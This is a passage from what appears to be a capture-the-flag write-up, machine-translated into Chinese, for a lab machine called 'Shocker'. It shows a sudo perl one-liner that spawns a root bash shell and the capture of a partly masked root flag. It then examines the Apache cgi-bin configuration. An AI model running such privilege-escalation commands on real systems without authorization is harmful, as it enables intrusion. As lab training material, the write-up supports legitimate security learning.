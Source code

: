 ### 壳

`perl`有一个选项，允许我从命令行运行Perl。它还具有一个将运行 shell 命令的命令。综上所述，我可以以root身份运行：`-e``exec``bash`

    shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/bash"'
    root@Shocker:/home/shelly#
    

这足以抓住：`root.txt`

    root@Shocker:~# cat root.txt
    3675a0fa************************
    

## 超越根

### 阿帕奇配置

当我第一次在 Apache 上找到以 404 未找到响应的目录时，我以为这是由于 [Apache 指令](http://httpd.apache.org/docs/2.2/mod/mod_dir.html#directoryslash)：`/cgi-bin/``/cgi-bin``DirectorySlash`

> 该指令确定是否应修正指向目录的 URL。`DirectorySlash``mod_dir`
> 
> 通常，如果用户请求一个没有尾部斜杠（指向目录）的资源，则会将他重定向到同一资源，但出于一些很好的原因_，使用_尾部斜杠：`mod_dir`
> 
> *   用户最终请求资源的规范 URL
> *   `mod_autoindex`工作正常。由于它不会发出链接中的路径，因此会指向错误的路径。
> *   `DirectoryIndex`将_仅_针对使用尾部斜杠请求的目录进行评估。
> *   网页内的相对网址引用将正常工作。
> 
> 如果您不希望出现这种效果_，并且_上述原因不适用于您，则可以关闭重定向，如下所示。

此指令的默认值为 ，表示重定向是默认行为。`On`

但是在生根之后，我找不到这个指令。我还注意到这不是在：`cgi-bin``/var/www/html`

    root@Shocker:/var/www/html# ls
    bug.jpg  index.html
    

将 CGI 脚本存储在 中显然是标准做法。实际上，当我第一次登陆 shell 时，当前的目录是 。`/usr/lib``/usr/lib/cgi-bin`

当我开始查看其他Apache配置文件时，这个谜团解开了，特别是：`/etc/apache2/conf-enabled/serve-cgi-bin.conf`

    <IfModule mod_alias.c>
            <IfModule mod_cgi.c>
                    Define ENABLE_USR_LIB_CGI_BIN
            </IfModule>
    
            <IfModule mod_cgid.c>
                    Define ENABLE_USR_LIB_CGI_BIN
            </IfModule>
    
            <IfDefine ENABLE_USR_LIB_CGI_BIN>
                    ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
                    <Directory "/usr/lib/cgi-bin">
                            AllowOverride None
                            Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
                            Require all granted
                    </Directory>
            </IfDefine>
    </IfModule>
    